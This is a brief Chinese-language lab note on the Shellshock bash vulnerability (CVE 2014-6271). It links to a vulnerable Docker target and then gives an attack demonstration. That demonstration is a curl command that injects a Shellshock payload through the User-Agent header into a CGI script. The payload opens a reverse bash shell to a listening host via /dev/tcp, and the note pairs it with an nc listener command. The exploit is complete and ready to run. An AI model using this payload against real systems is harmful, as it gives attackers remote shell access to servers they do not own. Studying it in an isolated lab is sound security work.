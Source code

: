 ## CVE 2014-6271

## 靶场下载
- [参考](http://www.0daybank.org/?p=15393)
- [vaas-cve-2014-6271](https://hub.docker.com/r/hmlio/vaas-cve-2014-6271/)
```
docker run -d -p 8888:80 docker.io/actanble/cve_2014-6271
```



## 攻击示范

```
# 将反弹的shell投射到本地端口4444

# windows1
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/192.168.2.55/4444 0>&1 " \
 http://192.168.2.223:8888/cgi-bin/stats

# windows2
nc -lv 4444
 ```